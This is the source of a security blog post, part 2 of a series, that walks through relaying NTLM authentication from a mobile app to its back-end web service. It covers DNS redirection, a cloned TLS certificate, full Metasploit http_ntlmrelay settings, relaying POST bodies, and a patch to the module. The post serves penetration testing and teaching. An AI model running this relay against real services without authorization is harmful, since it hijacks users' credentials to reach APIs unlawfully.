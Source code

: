 ```yaml
---
title:  "Hijacking NTLM-powered Mobile Apps (Part 2 - Relaying with Metasploit)"
date:   2018-10-01 12:00:00
published: true
---
```


Working on hacking a mobile app that uses NTLM to authenticate to a back-end web service? Make sure to check out [Part 1 - Cracking with Responder](/2018/ntlm-mobile-app-crack/) first. In this blog, we'll assume we could not crack the password and instead need to relay the Challenge/Response to interact with the API.

*Please note: This is an information security blog. Please don't do anything stupid without permission.*

## The setup

If you're reading this, I'm assuming you already read through part 1 and could not crack the password to clear-text. At this point, you should have the following steps completed:
- Validated you are indeed up against a 401 NTLM situation
- Fake certificate .pem file ready to go
- Your device has installed and trusted the fake CA that signed the client certificate
- You control the DNS for the device and have pointed your target domain to your computer

Having trouble figuring out the target domain and the target URL for the API? You should be able to see the first communication attempt from the mobile device inside Burp's "HTTP History" tab if you are proxied.

If you can't use Burp for some reason, try [my Python tool httpspy](https://gitlab.com/initstring/pentest/blob/master/web-tools/httpspy.py) that listens for HTTP/HTTPS traffic and prints all details to the console. You would run it like this, assuming you followed Part 1 and used my certificate cloning tool as well:

```
sudo ./httpspy.py --cert ./clonessl-output/client.pem wlan0
```

Click around in the app and try to get it to speak with the web service. If everything is configured correctly, you should see some inbound traffic. I like to use httpspy as a sanity check to ensure my TLS certificate is working and trusted, DNS is routing properly, etc.

The screenshot below shows an example of a simulated mobile app speaking to httpspy. Note the lack of an Authorization header - this would likely be the same for an app that speaks to an NTLM protected web service. The header isn't sent until it is requested.

![1](/images/post-ntlm/httpspy1.png)

## The first relay
Rich Lundeen has contributed an amazing Metasploit module called [http_ntlmrelay](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/http_ntlmrelay.rb). We will use this to intercept inbound traffic like you saw above and initiate valid Challenge/Response conversations with the web service. This allows us to conduct any GET/POST requests we like, regardless of what the mobile app developer intended.

The commands below assume the following:
- Our mobile device is trying to communicate with https://mobileapi.com/webservice.asmx
- Mobileapi.com resolves to the actual public IP address of 8.8.8.8 (it doesn't, don't use that)
- Our computer has an IP address of 192.168.12.1 that is reachable by the mobile device
- You have added a DNS entry for mobileapi.com that points to 192.168.12.1 (as described in the previous blog post)
- You've caught the UserAgent for your mobile app and put it in place of 'VulnerableMobileApp' below

```
sudo msfconsole # we need root to bind to ports 80/443

 
use auxiliary/server/http_ntlmrelay
set RHOST 8.8.8.8
set RPORT 443
set RSSL true
set RURIPATH /webservice.asmx
set SRVHOST 192.168.12.1
set SRVPORT 443
set SSL true
set SSLCERT /opt/pentest/web-tools/clonessl-output/client.pem
set URIPATH /webservice.asmx
set VHOST mobileapi.com
set UserAgent VulnerableMobileApp
set VERBOSE true
```

The VERBOSE option is important. This will output our HTTP/S replies to the console, as opposed to just storing in the msfdb (which you might not even have set up).

Now, type `run` and hit enter. The next time you initiate a request from your mobile app, you should see some action on the console. Metasploit is going to relay a GET request to /webservice.asmx with a valid NTLM handshake. You can play around with that `RURIPATH` parameter to get other URLS, looking for something like a .wsdl file.

# Relaying POST actions

To really interact with the API, you probably need to do more than just GET requests. If you were lucky enough to find the API definitions, you might have enough to construct a valid POST request. If so, put the BODY (no headers) of your HTTP POST request in a file called `/tmp/post` and run the following commands inside msf:

```
kill <active job number>
set RTYPE HTTP_POST
set FILEPUTDATA /tmp/post
run
```

Notice we killed off the existing job first. You can use tab-tab to autocomplete the job number in msf. You'll have to kill and run every time you change the contents of that `/tmp/post` file, as it is loaded into memory at `run`.

When I observed my mobile app in httpspy, I saw the following header set: `Content-Type: text/xml`. I happened to be working with a SOAP API. The metasploit module won't automatically detect XML in your `/tmp/post` file and set the proper content type. If you check the advanced options of the module, you'll see there is a setting for a `HTTP_HEADERFILE`. This is meant for you to add your own headers. BUT IT DIDN'T WORK FOR ME. That option is not well documented, so perhaps I was doing it wrong.

Instead, I had to make the following change to the `/opt/metasploit-framework/modules/auxiliary/server/http_ntlmrelay.rb` file on my computer:

```
# Original file:
266:     theaders = ('Authorization: NTLM ' << hash << "\r\n" <<
267: "Connection: Keep-Alive\r\n" )

# My changes:
266:    theaders = ('Authorization: NTLM ' << hash << "\r\n" <<
267:          "Connection: Keep-Alive\r\nContent-Type: text/xml\r\n\r\n" )
```

For debugging purposes, I also like to add the following lines which will give you details on the incoming request you are attempting to relay:

```
# Original file:
300:  resp = ser_sock.send_recv(r, opts[:timeout] ? opts[:timeout] : timeout, true)

# My changes:
300:     resp = ser_sock.send_recv(r, opts[:timeout] ? opts[:timeout] : timeout, true)
301:     print_good("DEBUG:")
302:     print_good(opts.inspect)
```

Good luck and happy hacking!
